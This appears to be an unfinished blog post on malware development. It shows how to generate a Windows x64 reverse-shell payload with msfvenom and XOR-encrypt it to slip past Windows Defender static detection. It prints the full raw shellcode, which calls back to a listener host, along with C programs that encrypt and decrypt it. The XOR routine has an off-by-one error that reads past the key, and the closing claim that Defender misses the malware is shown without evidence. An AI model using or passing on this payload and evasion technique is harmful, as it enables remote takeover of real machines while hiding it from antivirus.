

  > ⚠️ **Note:** Keep in mind that this page is still in construction and this is not the final version

# Prelude
---

If you're new in malware development, just like me you might've heard that it was possible to evade windows defender static analysis with a simple encryption. 
I could not believe it, so I had to try it and why not put in a blog to describe my experience at the same time!


# Environment Setup
---

If you also want to perform this example you will need to have 2 virtual machines
  - Windows Machine
  - Kali Linux or any other machine with msfvenom on it


# Generating The shellcode
---

Now, I know some of you will say you should not generate your shellcode with msfvenom because any antivirus and endpoint protection systems have signatures for common msfvenom-generated payloads, making them easily detectable! But don't worry that is where the encryption will make the difference, but for now we will focus on generating the payload.

  > ⚠️ **Note:** Here we put LHOST and LPORT, because usually we would setup a listener so when the shellcode is executed it will connect back to it

- Generate shellcode
  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f c -o <name>.c
  ```


# Coding
---

Now for all my fellow hackers who likes programming, I know your hands are itching right now, but you can finally used them or maybe not since I will provide you with the code already written,
but you can still play around with it if you want to!

- Coding the first application that will take the shellcode and will perform a xor encryption and will output the result
  
  > ⚠️ **Note:** You can edit the variable to put your own shellcode generated. The first program will be upgraded so you can pass the shellcode via a prompt, but for the sake of this demonstration, I didn't do it
  > Also note that if you edit the variable key, make sure that you have the same key in the second program.

  ```
  #include <Windows.h>
  #include <stdio.h>
  
  
  unsigned char shellcode[] =
  "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
  "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
  "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
  "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
  "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
  "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
  "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
  "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
  "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
  "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
  "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
  "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
  "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
  "\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
  "\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
  "\x00\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x0f\x80"
  "\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
  "\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
  "\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
  "\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
  "\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
  "\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
  "\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
  "\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
  "\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
  "\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
  "\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
  "\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
  "\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
  "\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
  "\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
  "\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
  
  unsigned char key[] = {
  	0x04, 0x05, 0x06, 0x07, 0x08, 0x09
  };
  
  VOID XorByInputKey(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) 
  {
  	for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
  		// if end of the key, start again 
  		if (j > sKeySize)
  		{
  			j = 0;
  		}
  		pShellcode[i] = pShellcode[i] ^ bKey[j];
  	}
  }
  
  VOID PrintHexData(LPCSTR Name, PBYTE Data, SIZE_T Size) 
  {
  	printf("unsigned char %s[] = {", Name);
  
  	for (int i = 0; i < Size; i++) {
  		if (i % 16 == 0) {
  			printf("\n\t");
  		}
  		if (i < Size - 1) {
  			printf("0x%0.2X, ", Data[i]);
  		}
  		else {
  			printf("0x%0.2X ", Data[i]);
  		}
  	}
  
  	printf("};\n\n\n");
  }
  
  VOID logo() 
  {
  	printf("                                                                                                     \n");
  	printf("                                                                                                     \n");
  	printf("  ,----..                                 ___                                                        \n");
  	printf(" /   /   \\                  ,-.----.    ,--.'|_                                                      \n");
  	printf("|   :     :  __  ,-.        \\    /  \\   |  | :,'             __  ,-.                               \n");
  	printf(".   |  ;. /,' ,'/ /|        |   :    |  :  : ' :           ,' ,'/ /|                              \n");
  	printf(".   ; /--` '  | |' |   .--, |   | .\\ :.;__,'  /     ,---.  '  | |' |                              \n");
  	printf(";   | ;    |  |   ,' /_ ./| .   : |: ||  |   |     /     \\ |  |   ,'                              \n");
  	printf("|   : |    '  :  /, ' , ' : |   |  \\ ::__,'| :    /    /  |'  :  /                                \n");
  	printf(".   | '___ |  | '/___/ \\: | |   : .  |  '  : |__ .    ' / ||  | '                                 \n");
  	printf("'   ; : .'|;  : | .  \\  ' | :     |`-'  |  | '.'|'   ;   /|;  : |                                 \n");
  	printf("'   | '/  :|  , ;  \\  ;   : :   : :     ;  :    ;'   |  / ||  , ;                                 \n");
  	printf("|   :    /  ---'    \\  \\  ; |   | :     |  ,   / |   :    | ---'                                  \n");
  	printf(" \\   \\ .'            :  \\  \\`---'.|      ---`-'   \\   \\  /                                           \n");
  	printf("  `---`               \\  ' ;  `---`                `----'                                            \n");
  	printf("                       `--`                                                                          \n");
  }
  
  int main() 
  {
  	logo();
  
  	printf("[i] shellcode : 0x%p \n", shellcode);
  	XorByInputKey(shellcode, sizeof(shellcode), key, sizeof(key));
  	PrintHexData("Encrypted_Shellcode", shellcode, sizeof(shellcode));
  
  	printf("[#] Press <Enter> To Quit ...");
  	getchar();
  
  	return 0;
  }
  ```
- Coding the second application, that will use the encrypted payload, decrypt it. We will not perform any injection in this post, but we will in another one;)
   > ⚠️ **Note:** You can edit the variable to put your own encrypted shellcode generated. Also make sure that the value inside the variable key is the same as when you generated the encrypted payload

  ```
  #include <Windows.h>
  #include <stdio.h>
  
  
  unsigned char key[] = {
  	0x04, 0x05, 0x06, 0x07, 0x08, 0x09
  };
  
  unsigned char encShellcode[] = {
  		0xF8, 0x4D, 0x85, 0xE3, 0xF8, 0xE1, 0xC0, 0x04, 0x05, 0x06, 0x46, 0x59, 0x48, 0x50, 0x56, 0x54,
  		0x50, 0x4F, 0x39, 0xDB, 0x65, 0x4C, 0x8E, 0x54, 0x67, 0x40, 0x82, 0x52, 0x1C, 0x4D, 0x8D, 0x55,
  		0x28, 0x41, 0x8B, 0x76, 0x55, 0x4E, 0x08, 0xBF, 0x43, 0x4A, 0x49, 0x34, 0xCF, 0x4F, 0x39, 0xC9,
  		0xAC, 0x38, 0x64, 0x7A, 0x05, 0x24, 0x29, 0x41, 0xC5, 0xCC, 0x0B, 0x46, 0x09, 0xC8, 0xE2, 0xE9,
  		0x57, 0x47, 0x56, 0x40, 0x82, 0x52, 0x24, 0x8E, 0x44, 0x3B, 0x40, 0x08, 0xD0, 0x8F, 0x85, 0x8E,
  		0x07, 0x08, 0x09, 0x48, 0x81, 0xC5, 0x72, 0x60, 0x40, 0x08, 0xD0, 0x54, 0x8E, 0x4E, 0x1F, 0x4C,
  		0x82, 0x40, 0x24, 0x4C, 0x07, 0xD7, 0xEB, 0x5F, 0x48, 0xFB, 0xCC, 0x47, 0x8C, 0x3C, 0x81, 0x48,
  		0x05, 0xD3, 0x4B, 0x36, 0xC1, 0x41, 0x31, 0xC4, 0xA9, 0x47, 0xC6, 0xC1, 0x04, 0x41, 0x05, 0xC4,
  		0x3E, 0xE7, 0x7D, 0xF8, 0x4C, 0x07, 0x49, 0x22, 0x0F, 0x4D, 0x30, 0xD1, 0x71, 0xDD, 0x5E, 0x43,
  		0x83, 0x49, 0x24, 0x4D, 0x04, 0xD6, 0x61, 0x49, 0x82, 0x0C, 0x4C, 0x41, 0x8D, 0x47, 0x14, 0x40,
  		0x01, 0xD4, 0x44, 0x8D, 0x03, 0x80, 0x41, 0x01, 0xD4, 0x44, 0x5E, 0x46, 0x50, 0x57, 0x59, 0x5E,
  		0x44, 0x5E, 0x46, 0x51, 0x48, 0x5A, 0x4C, 0x86, 0xEA, 0x27, 0x49, 0x5B, 0xFF, 0xE4, 0x5D, 0x47,
  		0x5E, 0x52, 0x41, 0x8B, 0x16, 0xEC, 0x51, 0xF8, 0xF7, 0xF6, 0x5D, 0x4D, 0xBB, 0x71, 0x74, 0x3A,
  		0x56, 0x33, 0x36, 0x05, 0x06, 0x46, 0x5E, 0x40, 0x89, 0xE2, 0x4D, 0x87, 0xEB, 0xA8, 0x08, 0x00,
  		0x04, 0x4C, 0x8F, 0xE2, 0x41, 0xB5, 0x02, 0x04, 0x14, 0x5A, 0xC7, 0xA0, 0x06, 0x80, 0x45, 0x51,
  		0x4F, 0x8E, 0xEC, 0x45, 0x89, 0xF5, 0x44, 0xBC, 0x4B, 0x7F, 0x2F, 0x07, 0xFB, 0xD0, 0x4A, 0x8E,
  		0xE2, 0x61, 0x01, 0x05, 0x05, 0x06, 0x5E, 0x49, 0xB3, 0x29, 0x84, 0x6E, 0x06, 0xF8, 0xDD, 0x59,
  		0x50, 0x49, 0x34, 0xCF, 0x4A, 0x39, 0xC9, 0x48, 0xFB, 0xC5, 0x4E, 0x8E, 0xCA, 0x41, 0xFF, 0xC4,
  		0x4D, 0x8F, 0xC6, 0x49, 0xB3, 0xEA, 0x0B, 0xDA, 0xE6, 0xF8, 0xDD, 0x41, 0x89, 0xC3, 0x6F, 0x16,
  		0x46, 0x50, 0x45, 0x89, 0xE6, 0x4D, 0x8F, 0xFE, 0x49, 0xB3, 0x99, 0xA1, 0x71, 0x67, 0xF8, 0xDD,
  		0x41, 0x81, 0xC0, 0x45, 0x04, 0x07, 0x08, 0x40, 0xB8, 0x67, 0x68, 0x62, 0x07, 0x08, 0x09, 0x00,
  		0x04, 0x44, 0x56, 0x46, 0x58, 0x41, 0x89, 0xE6, 0x52, 0x51, 0x50, 0x45, 0x38, 0xC0, 0x6E, 0x08,
  		0x5F, 0x46, 0x58, 0xEB, 0xFC, 0x62, 0xC2, 0x42, 0x23, 0x5C, 0x08, 0x01, 0x4C, 0x88, 0x42, 0x23,
  		0x10, 0xCF, 0x00, 0x6C, 0x4D, 0x8F, 0xE1, 0x5E, 0x59, 0x41, 0x54, 0x44, 0x56, 0x46, 0x58, 0x40,
  		0xFF, 0xC4, 0x44, 0x56, 0x4E, 0xF7, 0xC1, 0x4D, 0x8D, 0xC4, 0x4A, 0x8E, 0xC9, 0x48, 0xBA, 0x7D,
  		0xC9, 0x39, 0x81, 0xF7, 0xDC, 0x48, 0x35, 0xD7, 0x4E, 0xF8, 0xC2, 0x82, 0x0E, 0x45, 0xBF, 0x0E,
  		0x80, 0x15, 0x69, 0xFF, 0xD1, 0xBE, 0xF6, 0xB2, 0xAA, 0x5F, 0x41, 0xBE, 0xA3, 0x93, 0xBA, 0x95,
  		0xF6, 0xD5, 0x4C, 0x86, 0xC2, 0x2F, 0x34, 0x0F, 0x7C, 0x0E, 0x85, 0xFD, 0xE7, 0x7D, 0x0C, 0xBB,
  		0x43, 0x16, 0x74, 0x68, 0x62, 0x09, 0x59, 0x45, 0x8C, 0xDC, 0xF8, 0xDD, 0x09 };
  
  VOID XorByInputKey(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize)
  {
  	for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {
  		// if end of the key, start again 
  		if (j > sKeySize)
  		{
  			j = 0;
  		}
  		pShellcode[i] = pShellcode[i] ^ bKey[j];
  	}
  }
  
  VOID PrintHexData(LPCSTR Name, PBYTE Data, SIZE_T Size)
  {
  	printf("unsigned char %s[] = {", Name);
  
  	for (int i = 0; i < Size; i++) {
  		if (i % 16 == 0) {
  			printf("\n\t");
  		}
  		if (i < Size - 1) {
  			printf("0x%0.2X, ", Data[i]);
  		}
  		else {
  			printf("0x%0.2X ", Data[i]);
  		}
  	}
  
  	printf("};\n\n\n");
  }
  
  
  int main() 
  {
  	PrintHexData("Encrypted_Shellcode", encShellcode, sizeof(encShellcode));
  	XorByInputKey(encShellcode, sizeof(encShellcode), key,sizeof(key));
  	PrintHexData("Decrypted_Shellcode", encShellcode, sizeof(encShellcode));
  
  	printf("[#] Press <Enter> To Quit ...");
  	getchar();
  
      return 0;
  }
  ```

  # Conclusion
  ---

  

So, here we are, we can clearly see that windows defender is not able to detect the malware. For now we only change the signature of our executable, I will try to perform an injection that will be undetectable by windows defender in another blog

  # Credits

  I want to shoutout the maldev academy for some great references on windows defender evasion


